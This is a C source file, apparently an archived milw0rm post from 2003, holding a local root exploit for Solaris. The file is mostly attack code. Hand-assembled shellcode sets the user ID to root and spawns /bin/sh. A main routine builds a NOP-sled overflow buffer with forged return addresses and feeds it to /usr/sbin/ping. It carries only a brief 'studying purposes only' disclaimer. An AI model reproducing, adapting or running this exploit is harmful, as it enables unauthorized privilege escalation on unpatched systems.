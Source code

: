 EXP
---

    /***********************************************************
    * hoagie_solarisldap.c
    *
    * gcc hoagie_solarisldap.c -o hoagie_solarisldap
    *
    * Author: Andi <andi@void.at>
    *
    * Greetz to Greuff, philipp and the other hoagie-fellas :-)
    *
    * THIS FILE IS FOR STUDYING PURPOSES ONLY AND A PROOF-OF-
    * CONCEPT. THE AUTHOR CAN NOT BE HELD RESPONSIBLE FOR ANY
    * DAMAGE DONE USING THIS PROGRAM.
    *
    *
    * Offsets: 9208 ... without patch 108994-11
    *
    ************************************************************/

    #include <stdio.h>

    #define NOP 0x90
    #define ORIGSIZE 258

    char shellcode[]=
    /* main: */
    "\xeb\x0a" /* jmp initcall */

    /* initlcall: */
    "\x9a\x01\x02\x03\x5c\x07\x04" /* lcall */
    "\xc3" /* ret */

    /* jmpz: */
    "\xeb\x05" /* jmp setuidcode */

    /* initcall: */
    "\xe8\xf9\xff\xff\xff" /* call jmpz */

    /* setuidcode: */
    "\x5e" /* popl %esi */
    "\x29\xc0" /* subl %eax, %eax */
    "\x88\x46\xf7" /* movb %al, 0xfffffff7(%esi) */
    "\x89\x46\xf2" /* movl %eax, 0xfffffff2(%esi) */

    /* seteuid(0); */
    "\x50" /* pushl %eax */
    "\xb0\x8d" /* movb $0x8d, %al */
    "\xe8\xe0\xff\xff\xff" /* call initlcall */
    /* setuid(0); */
    "\x29\xc0" /* subl %eax, %eax */
    "\x50" /* pushl %eax */
    "\xb0\x17" /* movb $0x17, %al */
    "\xe8\xd6\xff\xff\xff" /* call initlcall */

    "\xeb\x1f" /* jmp callz */

    /* start: */
    /* execve /bin/sh */
    "\x5e" /* popl %esi */
    "\x8d\x1e" /* leal (%esi), %ebx */
    "\x89\x5e\x0b" /* movl %ebx, 0x0b(%esi) */
    "\x29\xc0" /* subl %eax, %eax */
    "\x88\x46\x19" /* movb %al, 0x19(%esi) */
    "\x89\x46\x14" /* movl %eax, 0x14(%esi) */
    "\x89\x46\x0f" /* movl %eax, 0x0f(%esi) */
    "\x89\x46\x07" /* movl %eax, 0x07(%esi) */
    "\xb0\x3b" /* movb $0x3b, %al */
    "\x8d\x4e\x0b" /* leal 0x0b(%esi), %ecx */
    "\x51" /* pushl %ecx */
    "\x51" /* pushl %ecx */
    "\x53" /* pushl %ebx */
    "\x50" /* pushl %eax */
    "\xeb\x18" /* jmp lcall */

    /* callz: */
    "\xe8\xdc\xff\xff\xff" /* call start */

    "\x2f\x62\x69\x6e\x2f\x73\x68" /* /bin/sh */
    "\x01\x01\x01\x01\x02\x02\x02\x02\x03\x03\x03\x03"

    /* lcall: */
    "\x9a\x04\x04\x04\x04\x07\x04"; /* lcall */



    unsigned long getsp(void)
    {
    __asm__(" movl %esp,%eax ");
    }

    int main(int argc, char **argv) {
    char buf[512];
    int offset = 9208;
    int retaddr = 0;
    int i;

    if (argc > 1) {
    sscanf(argv[1], "%d", &offset);
    }

    printf("hoagie_solarisldap local root exploit\n");
    printf("[*] offset: 0x%x\n", offset);

    memset(buf, NOP, sizeof(buf));
    buf[28] = 0xeb;
    buf[29] = 30;
    for (i = 0; i < strlen(shellcode); i++) {
    buf[i + 60] = shellcode[i];
    }

    retaddr = getsp() - offset;
    printf("[*] return address: 0x%x\n", retaddr);

    for (i = 0; i < 4 * 25; i += 4){
    buf[i + ORIGSIZE + 2] = retaddr & 0xff;
    buf[i + ORIGSIZE + 3] = (retaddr >> 8 ) &0xff;
    buf[i + ORIGSIZE + 0] = (retaddr >> 16 ) &0xff;
    buf[i + ORIGSIZE + 1] = (retaddr >> 24 ) &0xff;
    }

    execl("/usr/sbin/ping", "ping", buf, NULL);
    }


    // milw0rm.com [2003-04-01]
